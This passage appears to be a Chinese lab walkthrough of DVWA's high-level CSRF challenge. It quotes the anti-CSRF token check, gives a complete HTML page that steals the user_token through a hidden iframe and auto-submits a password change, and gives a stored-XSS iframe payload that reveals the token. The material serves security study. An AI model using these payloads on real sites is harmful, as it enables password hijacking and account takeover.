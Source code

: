 ```php
		$change = true;
	}
}

if ($change) {
	// Check Anti-CSRF token
	checkToken( $token, $_SESSION[ 'session_token' ], 'index.php' );
```

checkToken函数实现的是anti-token机制。服务器每次收到修改密码请求的时候都会生成一个随机token，在此之后服务器会先校验token，校验成功后再进行后续操作。所以需要在发起请求之前需要获取服务器返回的user_token，利用user_token绕过验证。

示例：

```html
<!DOCTYPE html>
<html>
<head lang="en">
    <meta charset="UTF-8">
    <title></title>
    <script type="text/javascript">
        //获取用户的token，并设置为表单中的token，然后提交修改密码的表单
        function attack()
        {
            document.getElementsByName('user_token')[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;
            document.getElementById("transfer").submit();
        }
    </script>
</head>
<body onload="attack()">
    <iframe src="http://127.0.0.1/dvwa/vulnerabilities/csrf/" id="hack"  style="display:none;">  <!--在该网页内打开另一个网页-->
    </iframe>
    <form method="GET" id="transfer"  action="http://127.0.0.1/dvwa/vulnerabilities/csrf/">
        <input type="hidden" name="password_new" value="admin">
        <input type="hidden" name="password_conf" value="admin">
        <input type="hidden" name="user_token" value="">
        <input type="hidden" name="Change" value="Change">
    </form>
</body>
</html>
```

这样的脚本事实上是无法在实际环境/在线靶场内攻击的，因为现在的浏览器无法实现跨域攻击，所以必须要将攻击代码嵌入到服务器目录中才可以实现攻击。

在DVWA中，实现这一目的可以和XSS(STORED)漏洞页面配合实现：

在XSS(stored)页面中随意提交一个请求并抓包，把txtName字段改为可以获取当前token值的payload，放包之后则会弹窗显示当前会话的user_token:

```html
<iframe src="../csrf/" onload=alert(frames[0].document.getElementsByName('user_token')[0].value)>
```

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202308101431687.png)
